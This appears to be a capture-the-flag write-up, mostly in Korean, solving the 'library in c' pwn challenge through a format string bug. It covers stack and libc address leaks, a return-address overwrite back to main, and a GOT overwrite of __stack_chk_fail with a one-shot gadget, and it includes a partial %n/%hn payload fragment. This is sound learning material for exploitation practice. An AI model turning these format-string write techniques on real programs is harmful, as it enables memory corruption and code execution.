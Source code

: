 lib in c write up
---------------
pwn , 120pts

desc 
---------------
```
After making that trainwreck of a criminal database site, clam decided to move on and make a library book manager ... but written in C ... and without any actual functionality. What a fun guy. I managed to get the source and a copy of libc from him as well.

Find it on the shell server at /problems/2020/library_in_c, or over tcp at nc shell.actf.co 20201.

```

- FSB
- got overwrite

files 
---------------

- challenge 
- source
- libc.so.6 (glic 2.23 -> ubuntu 16.04)

checksec 
---------------
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
solution 
---------------
fgets를 통해 64바이트만큼 두번의 입력을 받고 , 입력한 내용을 printf 두번으로 그대로 출력해 FSB가 유발된다. 
64바이트면 8번 입력이 가능한데, 어째 좀 적어보인다. 내가 원하는 대로 조작을 해보려면 여러번의 입력이 필요해보인다. 

일단 ret를 바꿔봐야 하므로, 
첫째 입력에서 스택주소를 leak 한 다음 ret 위치에 main 함수 시작부분 주소를 넣어주자. 
제일 처음 lx 로 스택주소가 나오는데, ret위치와 +0x2738만큼 균일하게 차이가 난다.
27번째에서 libc 주소가 나오고, 오프셋은 0x20830 이다.
따라서 해당값을 스택에 넣어준 다음 main의 시작주소를 덮어씌워주자. 

```

payload2 = st        
payload2 += "%21$n  "    #0x40

st = "%"+str(main[2])+"c"
st += " "*(8-len(st))

payload2 += st          #0x0747
payload2 += "%20$hn   "  

payload2 += p64(ret)         #20 -> 뒷부분
payload2 += p64(ret+2)       #21 -> 앞부분 

```

그 다음 got에 원샷가젯 주소를 덮어씌울건데 , 12바이트 주소를 덮어씌워야 하므로 3번의 입력이 필요하여
8*9 = 72 바이트 만큼 입력이 들어가야 한다 . 
두번째 반복때 카나리 체크 함수인 __stack_chk_fail 의  got를 덮어 씌우면서 
카나리가 있는 스택의 값을 건드려 해당 함수가 실행되게 만들것이다. 

풀이완료.




